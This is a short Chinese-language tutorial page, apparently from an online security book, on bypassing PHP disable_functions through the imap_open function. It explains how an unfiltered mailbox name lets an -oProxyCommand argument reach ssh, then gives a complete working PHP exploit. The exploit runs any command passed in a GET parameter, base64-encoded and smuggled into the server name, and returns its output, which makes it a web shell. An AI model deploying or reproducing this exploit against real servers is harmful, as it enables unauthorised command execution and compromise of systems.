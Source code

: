 > 原文：[http://book.iwonder.run/安全技术/Disable functions/5.html](http://book.iwonder.run/安全技术/Disable functions/5.html)

## ***利用 imap_open 函数任意命令执行***

**1\. 前提条件**

目标开启了 imap 扩展，并支持 imap_open()函数

**2\. 基本原理**

PHP 的 imap_open 函数中的漏洞可能允许经过身份验证的远程攻击者在目标系统上执行任意命令。该漏洞的存在是因为受影响的软件的 imap_open 函数在将邮箱名称传递给 rsh 或 ssh 命令之前不正确地过滤邮箱名称。如果启用了 rsh 和 ssh 功能并且 rsh 命令是 ssh 命令的符号链接，则攻击者可以通过向目标系统发送包含-oProxyCommand 参数的恶意 IMAP 服务器名称来利用此漏洞。成功的攻击可能允许攻击者绕过其他禁用的 exec 受影响软件中的功能，攻击者可利用这些功能在目标系统上执行任意 shell 命令。

**3\. exp**

```
<?php
error_reporting(0);
if (!function_exists('imap_open')) {
    die("no imap_open function!");
}
$server = "x -oProxyCommand=echo\t" . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . "|base64\t-d|sh}";
imap_open('{' . $server . ':143/imap}INBOX', '', '');
sleep(5);
echo file_get_contents("/tmp/cmd_result");
?> 
```

